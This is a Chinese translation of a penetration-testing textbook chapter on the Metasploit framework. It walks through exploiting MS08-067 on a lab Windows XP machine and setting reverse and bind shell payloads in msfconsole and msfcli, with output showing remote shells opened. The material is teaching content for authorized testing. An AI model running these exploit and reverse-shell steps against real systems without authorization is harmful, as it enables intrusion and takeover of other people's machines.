


## 第四章 使用 Metasploit 框架

在后续章节中，我们将深入探讨渗透测试的各个阶段，但在本章中，我们将直接动手，亲自体验利用过程。尽管信息收集和侦察阶段对渗透测试的成功通常更为重要，但收集 shell（连接到被利用的目标的远程连接）或诱使用户将其公司凭据输入到你的克隆网站中，总比利用漏洞更有趣。

在本章中，我们将使用 Metasploit 框架，这是渗透测试人员的事实标准工具。Metasploit 于 2003 年首次发布，在安全社区中已成为一种文化现象。尽管 Metasploit 目前由安全公司 Rapid7 拥有，但仍然提供开源版本，且开发工作主要由安全社区推动。

Metasploit 的模块化和灵活架构帮助开发人员在发现新漏洞时高效地创建有效的利用代码。正如你将看到的，Metasploit 直观且易于使用，并且提供了一种集中化的方式来运行已经通过安全社区验证的可信利用代码。

为什么要使用 Metasploit？假设你在客户环境中发现了一个漏洞——位于 192.168.20.10 的 Windows XP 系统缺少 Microsoft 安全公告 MS08-067。作为渗透测试人员，你需要利用这个漏洞（如果可能的话），并评估潜在的安全风险。

一种方法可能是在你的实验室中设置一个同样缺少此补丁的 Windows XP 系统，尝试触发漏洞，并开发一个有效的利用代码。但手动开发利用代码既耗时又需要技能，而你的渗透测试机会窗口可能正在关闭。

你可以尝试在互联网上搜索利用此漏洞的代码。像 Packet Storm Security (*[`www.packetstormsecurity.com/`](http://www.packetstormsecurity.com/)*)、SecurityFocus (*[`www.securityfocus.com/`](http://www.securityfocus.com/)*)、和 Exploit Database (*[`www.exploit-db.com/`](http://www.exploit-db.com/)*) 这样的网站提供了已知利用代码的仓库。但需要警惕的是：并非所有公开的利用代码都能按其声明的方式工作。有些利用代码可能会摧毁目标系统，甚至攻击你的系统而不是目标。你在运行网上找到的任何东西时，应该始终保持警惕，并在信任之前仔细阅读代码。此外，你找到的公开利用代码可能无法完全满足你的需求。你可能需要做一些额外的工作，将它们移植到你的渗透测试环境中。

无论我们是从零开始开发利用代码，还是将公开的代码作为基础，我们仍然需要让这个利用代码在你的渗透测试中生效。我们的时间可能会更好地用于那些难以自动化的任务，幸运的是，我们可以使用 Metasploit 来快速且轻松地利用已知漏洞，如 MS08-067。

## 启动 Metasploit

让我们启动 Metasploit 并攻击我们的第一个系统。在 Kali Linux 中，Metasploit 在我们的路径中，因此我们可以在系统中的任何位置启动它。但在启动 Metasploit 之前，你需要启动 PostgreSQL 数据库，Metasploit 会使用它来跟踪你的操作。

```
root@kali:~# service postgresql start
```

现在你已经准备好启动 Metasploit 服务。此命令会创建一个名为 *msf3* 的 PostgreSQL 用户，并创建一个相应的数据库来存储我们的数据。它还会启动 Metasploit 的远程过程调用（RPC）服务器和 Web 服务器。

```
root@kali:~# service metasploit start
```

使用 Metasploit 有多种接口。在本章中，我们将使用 Msfconsole，这是一个基于文本的 Metasploit 控制台，以及 Msfcli，这是一个命令行接口。两种接口都可以用来运行 Metasploit 模块，尽管我通常会在 Msfconsole 中花费大部分时间。通过输入 **`msfconsole`** 来启动控制台。

```
root@kali:~# msfconsole
```

如果 Msfconsole 看起来停顿了一两分钟，不要惊慌；它正在动态加载 Metasploit 模块树。加载完成后，你将看到一些巧妙的 ASCII 艺术、版本信息和其他细节，以及一个 `msf >` 提示符（见 示例 4-1）。

示例 4-1. 启动 Msfconsole

```
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||

Large pentest? List, sort, group, tag and search your hosts and services
in Metasploit Pro -- type 'go_pro' to launch it now.

       =[ metasploit v4.8.2-2014010101 [core:4.8 api:1.0]
+ -- --= 1246 exploits - 678 auxiliary - 198 post
+ -- --=[ 324 payloads - 32 encoders - 8 nops

msf >
```

请注意，在 [示例 4-1 中，截至本文撰写时，Metasploit 有 1,246 个漏洞利用模块、678 个辅助模块等。毫无疑问，当你阅读本文时，这些数字会更大。新的模块不断被添加到 Metasploit 中，并且由于 Metasploit 是一个社区驱动的项目，任何人都可以提交模块以供加入 Metasploit 框架。（事实上，在 第十九章 中，你将学习如何编写自己的模块，并作为 Metasploit 作者获得不朽的名声。）

如果在使用 Msfconsole 时遇到困难，可以输入 `help` 获取可用命令的列表以及它们的功能描述。对于某个特定命令的详细信息，包括用法，输入 `help` *`<command name>`*。

例如，使用 Metasploit 的 `route` 命令的帮助信息显示在 示例 4-2 中。

示例 4-2. Metasploit 中的帮助信息

```
msf > **help route**
Usage: route [add/remove/get/flush/print] subnet netmask [comm/sid]

Route traffic destined to a given subnet through a supplied session.
The default comm is Local...
```

## 查找 Metasploit 模块

让我们看看如何利用 Metasploit 来利用我们 Windows XP 目标中的未修补漏洞。我们将利用在 Microsoft 安全公告 MS08-067 中修补的漏洞。你可能会问一个自然的问题，那就是我们怎么知道这个补丁在我们的 Windows XP 目标系统中缺失？在后续章节中，我们将逐步介绍如何发现这个漏洞以及在目标系统上发现的其他几个漏洞。现在，只需相信我，这是我们希望利用的漏洞。

MS08-067 修复了*netapi32.dll*中的一个问题，该问题允许攻击者通过服务器消息块（SMB）服务使用特殊构造的远程过程调用请求接管目标系统。这个漏洞特别危险，因为它不要求攻击者在执行攻击之前先对目标机器进行身份验证。MS08-067 因被 Conficker 蠕虫利用而获得了永恒的恶名，这一事件在媒体上被广泛报道。

现在，如果你熟悉 Microsoft 的补丁，可能会认出这个补丁是 2008 年的。考虑到它的年代，你可能会惊讶地发现，即使今天，特别是在评估内部网络时，这个补丁所修复的漏洞仍然能够在渗透测试中取得成功。Metasploit 的 MS08-067 模块易于使用且成功率高，使其成为理想的第一个示例。我们使用 Metasploit 的第一步是找到一个能够利用这个特定漏洞的模块。我们有几个选择。通常，通过简单的 Google 搜索就能找到所需的模块，但 Metasploit 也有一个在线模块数据库（*[`www.rapid7.com/db/modules/`](http://www.rapid7.com/db/modules/)）以及一个内置的搜索功能，你可以用来搜索正确的模块。

### 模块数据库

你可以使用 Metasploit 的搜索页面，根据公共漏洞和暴露（CVE）编号、开源漏洞数据库（OSVDB）ID、Bugtraq ID 或 Microsoft 安全公告来匹配 Metasploit 模块与漏洞，或者你可以搜索模块信息的全文内容。可以在 Microsoft 安全公告 ID 字段中搜索*MS08-067*，如图 4-1 所示。

图 4-1. 搜索 Metasploit 辅助模块与漏洞数据库

搜索结果，如图 4-2 所示，告诉我们需要的模块名称以及有关该模块的信息（我们将在下一节讨论）。

图 4-2. MS08-067 Metasploit 模块页面

MS08-067 安全公告的 Metasploit 模块的完整名称显示在 URI 栏中。在 Metasploit 的模块目录中，这个漏洞的利用模块是*exploit/windows/smb/ms08_067_netapi*。

### 内置搜索

你也可以使用 Metasploit 的内置搜索功能来找到正确的模块名称，如示例 4-3 所示。

示例 4-3. 搜索 Metasploit 模块

```
msf > **search ms08-067**

Matching Modules
================

   Name                                 Disclosure Date          Rank   Description
   ----                                 ---------------          ----   -----------
   **exploit/windows/smb/ms08_067_netapi**  2008-10-28 00:00:00 UTC  great  Microsoft Server
                                                                          Service Relative Path
                                                                          Stack Corruption
```

我们再次发现，这个漏洞的正确模块名称是 *exploit/windows/smb/ms08_067_netapi*。一旦你确认了要使用的模块，输入 `info` 命令并加上模块名称，如 示例 4-4 中所示。

示例 4-4。Metasploit 中的信息列出

```
  msf > **info exploit/windows/smb/ms08_067_netapi**

        ❶Name: Microsoft Server Service Relative Path Stack Corruption
      ❷Module: exploit/windows/smb/ms08_067_netapi
      Version: 0
    ❸Platform: Windows
  ❹Privileged: Yes
      License: Metasploit Framework License (BSD)
        ❺Rank: Great

❻ Available targets:
    Id  Name
    --  ----
    0   Automatic Targeting
    1   Windows 2000 Universal
    2   Windows XP SP0/SP1 Universal
    --*snip*--
    67  Windows 2003 SP2 Spanish (NX)

  ❼ Basic options:
    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    RHOST                     yes       The target address
    RPORT    445              yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

❽ Payload information:
    Space: 400
    Avoid: 8 characters
❾ Description:
    This module exploits a parsing flaw in the path canonicalization
    code of NetAPI32.dll through the Server Service. This module is
    capable of bypassing NX on some operating systems and service packs.
    The correct target must be used to prevent the Server Service (along
    with a dozen others in the same process) from crashing. Windows XP
    targets seem to handle multiple successful exploitation events, but
    2003 targets will often crash or hang on subsequent attempts. This
    is just the first version of this module, full support for NX bypass
    on 2003, along with other platforms, is still in development.
❿ References:
    http://www.microsoft.com/technet/security/bulletin/MS08-067.mspx
```

这个信息页面告诉我们很多内容。

+   首先我们看到一些关于模块的基本信息，包括 ❶ 处的描述性名称，接着是 ❷ 处的模块名称。（版本字段以前表示模块的 SVN 修订版，但由于 Metasploit 现在托管在 GitHub 上，所有模块的版本都设置为 0。）

+   **`平台`** ❸ 告诉我们这个利用适用于 Windows 系统。

+   **`权限`** ❹ 告诉我们该模块是否需要或授予目标系统的高级权限。`许可证` 被设置为 Metasploit Framework 许可证（BSD）。（Metasploit 的许可证是一个三条款的 BSD 开源许可证。）

+   **`排名`** ❺ 列出了该利用对目标的潜在影响。利用根据从手动到优秀进行排名。一个排名为优秀的利用不应该导致服务崩溃；像 MS08-067 这样的内存损坏漏洞通常不在这个类别中。我们的模块属于“优秀”类别的下一个级别。“优秀”级别的利用可以自动检测正确的目标，并具有其他特性，使其更可能成功。

+   **`可用目标`** ❻ 列出了该模块可以利用的操作系统版本和补丁级别。这个模块有 67 个可能的目标，包括 Windows 2000、Windows 2003 和 Windows XP，以及多个服务和语言包。

+   **`基本选项`** ❼ 列出了模块的各种选项，可以设置以使模块更好地满足我们的需求。例如，`RHOST` 选项告诉 Metasploit 目标的 IP 地址。（我们将在设置模块选项中深入讨论这些基本选项。）

+   **`有效载荷信息`** ❽ 包含帮助 Metasploit 决定可以与此利用一起使用哪些有效载荷的信息。有效载荷或 shellcode 告诉被利用的系统代表攻击者执行什么操作。（攻击目标的目的是，当然是让它做一些它本不该做的事情。）Metasploit 的有效载荷系统为我们提供了许多让目标执行操作的选项。

+   **`描述`** ❾ 包括有关该模块利用的特定漏洞的更多详细信息。

+   **`参考资料`** ❿ 包含指向在线漏洞数据库条目的链接。如果你在选择用于某个漏洞的 Metasploit 模块时感到困惑，可以从其信息页面开始。

确认这是正确的模块后，告诉 Metasploit 使用此模块，命令为 **`use windows/smb/ms08_067_netapi`**。你可以省略 *exploit/* 部分的模块名称；Metasploit 会自动识别你想要的。

```
msf > **use windows/smb/ms08_067_netapi**
msf  exploit(ms08_067_netapi) >
```

现在我们处于利用模块的上下文中。

## 设置模块选项

选择了我们的利用方法后，我们需要向 Metasploit 提供一些信息。正如你将在本书中看到的那样，Metasploit 可以在渗透测试的许多方面为你提供帮助，但它还不是一个能够读心的工具……至少目前还不是。要查看 Metasploit 运行你所选择的模块所需的信息，请输入 **`show options`**（示例 4-5）。

示例 4-5. 利用模块选项

```
msf  exploit(ms08_067_netapi) > **show options**

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
  ❶RHOST                     yes       The target address
  ❷RPORT    445              yes       Set the SMB service port
  ❸SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Exploit target:

   Id  Name
   --  ----
  ❹0   Automatic Targeting

msf  exploit(ms08_067_netapi) >
```

在示例 4-5 中显示的输出顶部是模块设置以及任何默认值，是否某些设置是模块成功运行所必需的，以及每个设置的描述。

### RHOST

`RHOST` 选项 ❶ 指的是我们想要利用的远程主机。这个选项是必需的，因为它给 Metasploit 提供了一个攻击目标。我们将通过将 `RHOST` 选项从空白更改为我们的目标 IP 地址，告诉 Metasploit 利用我们在第一章中设置的 Windows XP 目标机。（如果你记不住目标 IP 地址是什么，可以在 Windows XP 机器上运行 `ipconfig` 命令来查找。）要设置一个选项，请输入 `set` *`<要设置的选项> <要设置的值>`*，所以在这种情况下，**`set RHOST 192.168.20.10`**。（记得使用你自己 Windows XP 目标机的 IP 地址。）发出此命令后，再次运行 `show options` 应该会显示 `RHOST` 的值已设置为 192.168.20.10。

### RPORT

`RPORT` ❷ 指的是远程端口。让我想起了一位曾经的经理，他花了很长时间寻找 80 端口——就像是试图物理地找到它一样。对于我解释说网络端口完全是由代码构成的他并不满意，最终我只是指着以太网端口。这个故事的寓意是：端口只是网络端口；它并不是一个物理端口。例如，当你浏览 *[www.google.com](http://www.google.com)* 时，互联网上的某个 web 服务器就在 80 端口上监听。

在这种情况下，我们看到 `RPORT` 被设置为默认值。因为我们的利用方法使用了 Windows SMB 服务，`RPORT` 的值可能应该是 445，这是 SMB 的默认端口。正如你所看到的，Metasploit 为我们节省了设置该值的麻烦，默认将其设置为 445（如果需要，你可以更改它）。在我们的案例中，我们可以直接保持这个设置。

### SMBPIPE

和 `RPORT` 值一样，对于 `SMBPIPE` 选项 ❸，保持默认值 `BROWSER` 即可。这对我们的目的来说完全足够。（SMB 管道允许我们通过网络与 Windows 的进程间通信进行交互。我们将在本章稍后部分探讨如何找出目标机器上监听的 SMB 管道。）

### 利用目标

利用目标设置为`0 自动目标选择` ❹。这是目标操作系统及其版本。你可以在模块的信息页面查看可用的目标，或者通过命令`show targets`显示它们（参见示例 4-6）。

示例 4-6. 利用目标

```
msf  exploit(ms08_067_netapi) > **show targets**

Exploit targets:

   Id  Name
   --  ----
   0   Automatic Targeting
   1   Windows 2000 Universal
   2   Windows XP SP0/SP1 Universal
   3   Windows XP SP2 English (AlwaysOn NX)
   4   Windows XP SP2 English (NX)
   5   Windows XP SP3 English (AlwaysOn NX)
   *--snip--*
   67  Windows 2003 SP2 Spanish (NX)
```

正如在示例 4-6 中所见，这个模块可以攻击 Windows 2000、Windows 2003 和 Windows XP。

### 注意

请记住，微软已经为所有受此漏洞影响的平台发布了补丁，但要保持环境中的所有系统都及时安装 Windows 补丁并非易事。许多渗透测试客户的 Windows 系统及其他软件将会缺少一些关键更新。

我们知道我们的目标是运行 Windows XP SP3 英文版，因此我们可以猜测正确的目标编号是 5 或 6，但这并不总是这么简单。选择`自动目标选择`，让 Metasploit 指纹识别 SMB 服务，并根据结果选择适当的目标。

要设置目标选项，请输入`set target` *`<target number>`*。在这种情况下，我们将模块的目标保持为默认的`自动目标选择`，然后继续。

## 有效负载（或 Shellcode）

根据`show options`命令的输出，目前看起来一切应该就绪，但我们还没有完全完成。我们忘记告诉我们的漏洞利用一旦目标被攻击成功后该做什么。Metasploit 提供了便捷的方式来帮助我们设置有效负载。Metasploit 有许多有效负载，从简单的 Windows 命令到可扩展的 Metasploit Meterpreter（有关 Meterpreter 的详细信息，请参见第十三章）。只需选择一个兼容的有效负载，Metasploit 就会为你生成漏洞利用字符串，其中包括触发漏洞的代码和在漏洞利用成功后运行的有效负载。（我们将在第十六章至第十九章中讨论手动编写漏洞利用。）

### 查找兼容的有效负载

截至目前，Metasploit 中有 324 个有效负载，像利用模块一样，新有效负载定期会被添加到框架中。例如，随着移动平台的崛起，iOS 和其他智能手机的有效负载开始出现在 Metasploit 中。但当然，并非所有 324 个有效负载都与我们选择的漏洞利用兼容。如果我们的 Windows 系统收到本应为 iPhone 提供的指令，它会感到困惑。要查看兼容的有效负载，输入 **`show payloads`**，如示例 4-7 所示。

示例 4-7. 兼容的有效负载

```
msf  exploit(ms08_067_netapi) > **show payloads**

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   generic/custom                                       normal  Custom Payload
   generic/debug_trap                                   normal  Generic x86 Debug Trap
   generic/shell_bind_tcp                               normal  Generic Command Shell, Bind TCP
                                                                  Inline
   generic/shell_reverse_tcp                            normal  Generic Command Shell, Reverse
                                                                  Inline
   generic/tight_loop                                   normal  Generic x86 Tight Loop
   windows/dllinject/bind_ipv6_tcp                      normal  Reflective DLL Injection, Bind
                                                                  TCP Stager (IPv6)
   windows/dllinject/bind_nonx_tcp                      normal  Reflective DLL Injection, Bind
                                                                  TCP Stager (No NX or Win7)
   windows/dllinject/bind_tcp                           normal  Reflective DLL Injection, Bind
                                                                  TCP Stager
   windows/dllinject/reverse_http                       normal  Reflective DLL Injection, Reverse
                                                                  HTTP Stager
*--snip--*
   windows/vncinject/reverse_ipv6_http                  normal  VNC Server (Reflective Injection),
                                                                  Reverse HTTP Stager (IPv6)
   windows/vncinject/reverse_ipv6_tcp                   normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager (IPv6)
--*snip*--
   windows/vncinject/reverse_tcp                        normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager
   windows/vncinject/reverse_tcp_allports               normal  VNC Server (Reflective Injection),
                                                                  Reverse All-Port TCP Stager
   windows/vncinject/reverse_tcp_dns                    normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager (DNS)
```

如果你忘记设置有效载荷，你可能会发现，奇迹般地，攻击模块会自动选择默认的有效载荷及相关设置并运行。不过，你应该养成手动设置有效载荷及其选项的习惯，因为默认选项不一定适合你的需求。

### 测试运行

让我们保持简单，首先使用默认有效载荷选项发送攻击模块，以便查看其工作原理。输入 **`exploit`** 告诉 Metasploit 运行该模块，如示例 4-8 所示。

示例 4-8. 运行攻击

```
msf  exploit(ms08_067_netapi) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:1334) at
2015-08-31 07:37:05 -0400

meterpreter >
```

如你所见，我们最终得到了一个 Meterpreter 会话。Meterpreter 是 *meta-interpreter* 的缩写，是 Metasploit 独有的有效载荷。我常常把它形容为“类 shell 的超级版本”。它可以做任何命令 shell 能做的事，甚至更多。我们将在第十三章深入讨论 Meterpreter，但为了提前了解，可以在 Meterpreter 控制台中输入 **`help`** 查看 Meterpreter 的命令列表。

### 注意

另一个关于默认选项的注意事项是，Metasploit 使用端口 4444。在我们的实验室中，这没有问题，工作得很好。然而，在实际的攻击中，如果客户使用了即使是最原始的入侵防护软件，它可能会注意到端口 4444 上的流量，并说：“嘿，你是 Metasploit，快走！”然后断开你的连接。

现在，让我们关闭 Meterpreter 会话，进一步了解如何手动选择有效载荷。尽管 Meterpreter 非常有用，但你可能会发现自己处于无法使用它的场景。输入 **`exit`** 退出 Meterpreter 提示符，返回到常规的 Metasploit 控制台。

```
meterpreter > **exit**
[*] Shutting down Meterpreter...

[*] Meterpreter session 1 closed.  Reason: User exit
msf  exploit(ms08_067_netapi) >
```

## Shell 类型

在示例 4-7 中显示的兼容有效载荷列表中，你会看到一系列选项，包括命令 shell、Meterpreter、语音 API 或执行单个 Windows 命令。不论是 Meterpreter 还是其他，shell 可以分为两类：绑定（bind）和反向（reverse）。

### 绑定 Shell

*绑定 shell* 指示目标机器打开一个命令 shell，并在本地端口上监听。然后，攻击机器连接到目标机器的监听端口。然而，随着防火墙的出现，绑定 shell 的有效性下降，因为任何正确配置的防火墙都会阻止到一些随机端口（如 4444）的流量。

### 反向 Shell

*反向 shell* 则相反，它主动将连接推回到攻击机器，而不是等待传入连接。在这种情况下，我们在攻击机器上打开一个本地端口并监听来自目标的连接，因为这种反向连接更有可能穿越防火墙。

### 注意

你可能会想，“这本书是 2002 年写的吗？我的防火墙有出站过滤。”现代防火墙不仅能阻止入站连接，还能阻止出站连接。例如，阻止你的环境中的主机连接到端口 4444 是轻而易举的。但假设我把监听器设置在端口 80 或 443 上。对于防火墙来说，这看起来就像是网页流量，而你也知道，必须让用户能够从工作站访问 Facebook，否则会引发叛乱和混乱。

## 手动设置有效载荷

让我们选择一个 Windows 反向 shell 作为有效载荷。设置有效载荷的方式与设置 `RHOST` 选项相同：`set payload` *`<使用的有效载荷>`*。

```
msf  exploit(ms08_067_netapi) > **set payload windows/shell_reverse_tcp**
payload => windows/shell_reverse_tcp
```

由于这是一个反向 shell，我们需要告诉目标机器将 shell 发送到哪里；具体来说，我们需要提供攻击机器的 IP 地址和我们将监听的端口。再次运行 **`show options`**，如 示例 4-9 所示，将显示模块及其有效载荷选项。

示例 4-9. 带有效载荷的模块选项

```
msf  exploit(ms08_067_netapi) > **show options**

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.20.10    yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload options (windows/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
  ❶LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```

`LHOST` ❶ 是我们在 Kali 机器上的本地主机，即我们希望目标机器连接回来的 IP 地址。如果你忘记了 IP 地址，可以直接在 Msfconsole 中输入 Linux **`ifconfig`** 命令来查找。

```
msf  exploit(ms08_067_netapi) > **ifconfig**
[*] exec: ifconfig

eth0      Link encap:Ethernet  HWaddr 00:0c:29:0e:8f:11
          inet addr:192.168.20.9  Bcast:192.168.20.255  Mask:255.255.255.0

*--snip--*
```

现在设置 `LHOST` 选项，输入 **`set LHOST 192.168.20.9`**。保持 `LPORT` 和 `EXITFUNC` 的默认值，`LPORT` 是连接回来的本地端口，`EXITFUNC` 指示 Metasploit 如何退出。然后输入 **`exploit`**，如 示例 4-10 所示，再次发送我们的利用代码，并等待 shell 出现。

示例 4-10. 运行利用代码

```
msf  exploit(ms08_067_netapi) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444 ❶
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX) ❷
[*] Attempting to trigger the vulnerability...
[*] Command shell session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1374)
    at 2015-08-31 10:29:36 -0400

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

恭喜你：你成功地利用了你的第一个机器！

事情是这样的。当我们输入 `exploit` 时，Metasploit 在端口 4444 上打开一个监听器，以捕获来自目标 ❶ 的反向 shell。然后，由于我们将目标保持为默认的 `Automatic Targeting`，Metasploit 会指纹识别远程 SMB 服务器，并为我们选择合适的利用目标 ❷。一旦选择了利用代码，Metasploit 就会发送利用字符串，并尝试控制目标机器并执行我们选择的有效载荷。由于利用成功，命令 shell 被我们的处理程序捕获。

要关闭这个 shell，按 ctrl-C，然后在提示符下输入 **`y`** 来中止会话。

```
C:\WINDOWS\system32>**^C**
Abort session 2? [y/N]  **y**

[*] Command shell session 2 closed.  Reason: User exit
msf  exploit(ms08_067_netapi) >
```

要返回到 Meterpreter shell，您可以选择一个名称中带有 Meterpreter 的有效载荷，如 *windows/meterpreter/reverse_tcp*，然后再次利用 Windows XP 目标。

## Msfcli

现在介绍另一种与 Metasploit 交互的方法：命令行接口 Msfcli。当在脚本中使用 Metasploit 或测试正在开发的 Metasploit 模块时，Msfcli 特别有用，因为它允许你用简单的一行命令运行模块。

### 获取帮助

要运行 Msfcli，首先通过输入`exit`退出 Msfconsole，或直接打开另一个 Linux 控制台。Msfcli 已经在我们的路径中，因此我们可以在任何地方调用它。让我们首先通过**`msfcli -h`**查看 Msfcli 的帮助菜单（如示例 4-11 所示）。

示例 4-11. Msfcli 帮助

```
  root@kali:~# msfcli -h
❶ Usage: /opt/metasploit/apps/pro/msf3/msfcli <exploit_name> <option=value> [mode]
  ==============================================================================

      Mode           Description
      ----           -----------
      (A)dvanced     Show available advanced options for this module
      (AC)tions      Show available actions for this auxiliary module
      (C)heck        Run the check routine of the selected module
      (E)xecute      Execute the selected module
      (H)elp         You're looking at it baby!
      (I)DS Evasion  Show available ids evasion options for this module
     ❷(O)ptions      Show available options for this module
     ❸(P)ayloads     Show available payloads for this module
      (S)ummary      Show information about this module
      (T)argets      Show available targets for this exploit module
```

与使用 Msfconsole 不同，在使用 Msfcli 时，我们可以通过一个命令❶告诉 Metasploit 执行漏洞所需的一切。幸运的是，Msfcli 有一些模式来帮助我们构建最终的命令。例如，`O`模式❷显示所选模块的选项，而`P`模式则显示兼容的有效载荷❸。

### 显示选项

让我们再次对 Windows XP 目标使用 MS08-067 漏洞。根据帮助页面，我们需要传递给 Msfcli 我们想要使用的漏洞名称并设置所有选项❶。要查看可用的选项，请使用`O`模式。输入**`msfcli windows/smb/ms08_067_netapi O`**以查看 MS08-067 漏洞模块的选项，如示例 4-12 所示。

示例 4-12. 模块选项

```
root@kali:~# msfcli windows/smb/ms08_067_netapi O
[*] Please wait while we load the module tree...

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST                     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
```

我们看到与 Msfconsole 中相同的选项。我们被提醒将`RHOST`选项设置为目标机器的 IP 地址，但正如我们在帮助页面上看到的，在 Msfcli 中设置选项与在 Msfconsole 中稍有不同。这里我们使用*`option=value`*的方式。例如，要设置`RHOST`，我们输入`RHOST=192.168.20.10`。

### 有效载荷

若要查看与此模块兼容的有效载荷，请使用`P`模式。尝试**`msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 P`**，如示例 4-13 所示。

示例 4-13. Msfcli 中的模块有效载荷

```
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 P
[*] Please wait while we load the module tree...

Compatible payloads
===================

   Name                                             Description
   ----                                             -----------
   generic/custom                                   Use custom string or file as payload. Set
                                                      either PAYLOADFILE or PAYLOADSTR.
   generic/debug_trap                               Generate a debug trap in the target process
   generic/shell_bind_tcp                           Listen for a connection and spawn a command
                                                      shell
   generic/shell_reverse_tcp                        Connect back to attacker and spawn a command
                                                      shell
   generic/tight_loop                               Generate a tight loop in the target process
--*snip*--
```

这次，我们将使用绑定 shell 有效载荷。回想一下，绑定 shell 只是在目标机器的本地端口上监听。在有效载荷执行后，由我们的攻击机器连接到目标机器。回想我们在 Msfconsole 中的工作，选择一个有效载荷需要额外的有效载荷特定选项，我们可以通过`O`标志再次查看。

因为我们的绑定 shell 不会回调到攻击机器，所以我们不需要设置`LHOST`选项，并且可以暂时将`LPORT`选项保持为默认的 4444。看起来我们已经准备好再次利用 Windows XP 目标。最后，要告诉 Msfcli 运行漏洞，我们使用`E`标志（如示例 4-14 所示）。

示例 4-14. 在 Msfcli 中运行漏洞

```
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 PAYLOAD=windows/shell_bind_tcp E
[*] Please wait while we load the module tree...

RHOST => 192.168.20.10
PAYLOAD => windows/shell_bind_tcp
[*] Started bind handler ❶
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Command shell session 1 opened (192.168.20.9:35156 -> 192.168.20.10:4444)
    at 2015-08-31 16:43:54 -0400

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

看起来一切正常，我们得到了另一个 shell。但这次，与其在指定的本地端口 4444 上启动反向处理程序，Metasploit 启动了一个用于绑定 shell 的处理程序❶。在 Metasploit 发送漏洞字符串后，绑定处理程序将自动连接到有效载荷指定的端口并连接到 shell。再次，我们已成功控制目标机器。

## 使用 Msfvenom 创建独立的有效载荷

在 2011 年，Msfvenom 被添加到 Metasploit 中。在 Msfvenom 之前，工具 Msfpayload 和 Msfencode 可以一起使用，创建多种输出格式的独立编码 Metasploit 有效载荷，如 Windows 可执行文件和 ASP 页面。随着 Msfvenom 的推出，Msfpayload 和 Msfencode 的功能合并到了一个工具中，尽管 Msfpayload 和 Msfencode 仍然包含在 Metasploit 中。要查看 Msfvenom 的帮助页面，请输入**`msfvenom -h`**。

到目前为止，使用 Metasploit 的目标一直是利用目标系统中的漏洞并控制机器。现在我们将做些不同的事情。我们不再依赖缺失的补丁或其他安全问题，而是希望利用一个可能永远无法完全修复的安全问题：用户。Msfvenom 允许你创建独立的有效载荷，在目标系统上运行，试图通过社会工程学攻击（第十一章）或通过将有效载荷上传到一个易受攻击的服务器来利用用户，正如我们将在第八章中看到的那样。当一切都失败时，用户通常是一个突破口。

### 选择有效载荷

要列出所有可用的有效载荷，请输入**`msfvenom -l payloads`**。我们将使用 Metasploit 的 Meterpreter 有效载荷之一，`windows/meterpreter/reverse_tcp`，它提供一个带有 Meterpreter shell 的反向连接。使用`-p`来选择一个有效载荷。

### 设置选项

要查看模块的正确选项，请在选择有效载荷后输入`-o`标志，如示例 4-15 所示。

